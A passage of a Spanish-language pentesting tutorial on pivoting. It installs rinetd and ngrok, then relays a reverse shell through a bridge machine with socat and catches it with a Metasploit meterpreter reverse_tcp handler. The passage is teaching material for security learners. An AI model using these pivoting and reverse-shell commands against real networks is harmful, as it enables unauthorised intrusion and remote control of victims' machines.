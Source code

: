 #### 2. `rinetd` (Servicio permanente de port forwarding)

```bash
sudo apt install rinetd
```

#### 3. `ngrok` (Redireccionamiento público)

```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip
sudo mv ngrok /usr/local/bin/
```

---

### 🧪 Ejemplo completo 1: Redireccionar un reverse shell con `socat`

#### 🔥 Escenario:

Estás en una red interna y lograste una shell inversa (reverse shell) desde una víctima A. Pero la víctima A no tiene acceso externo. Tú puedes usar **una máquina B como pivote**.

```
Atacante <--> Máquina puente (B) <--> Víctima (A)
```

#### Paso 1: En máquina B (puente), redirige el puerto

```bash
socat TCP-LISTEN:4444,fork TCP:192.168.1.100:4444
```

Esto redirige todas las conexiones entrantes al puerto `4444` de B hacia la víctima (IP 192.168.1.100).

---

#### Paso 2: En la máquina atacante

Inicia Metasploit:

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <IP de máquina puente B>
set LPORT 4444
exploit
```

Cuando la víctima se conecte a B, el tráfico llegará a ti.

---

### 🧪 Ejemplo completo 2: Usar `ngrok` para exponer un servicio local
